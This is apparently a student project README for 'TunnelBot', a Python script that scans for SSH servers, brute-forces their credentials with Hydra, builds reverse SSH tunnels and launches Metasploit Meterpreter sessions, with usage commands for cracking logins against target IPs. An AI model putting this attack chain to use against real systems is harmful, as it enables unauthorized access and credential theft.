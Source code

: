 # TunnelBot

Automates creation of reverse SSH tunnels for forwarding connections from 
Metasploit payloads. 

Steps included in script:

1. Nmap scan for vulnerable SSH servers
2. Find login credentials using Hydra brute force attack
3. Create reverse SSH tunnels between the attacker's machine and the victim
    machines
4. Launch Meterpreter session on single host

## Getting Started

### Prerequisites

[Metasploit](https://metasploit.help.rapid7.com/docs/installing-the-metasploit-framework) 
and [Hydra](https://github.com/vanhauser-thc/thc-hydra) must be installed. 

We recommend running the script on Kali Linux as Metasploit and Hydra are included
by default. 

### Setup

1. Download repository 

2. Install dependencies using pip

    ```
    pip install -r requirements.txt
    ```

## Usage
Display help 

```
./finalproject.py -h
```

Create SSH tunnel for single host with known credentials
```
./finalproject.py -l <ssh_username> -p <ssh_password> <host ip>
```

Launch Meterpreter session after tunnel establishment
```
./finalproject.py -l <ssh_username> -p <ssh_password> -e <host ip>
```

Use wordlists for username and password cracking
```
./finalproject.py -L <username file> -p <password file> <host ip(s)>
```

## Authors
* **Spencer Huff** 
* **Nathan Tsai**
* **Aylish Wrench**
* **Adam Multach**   


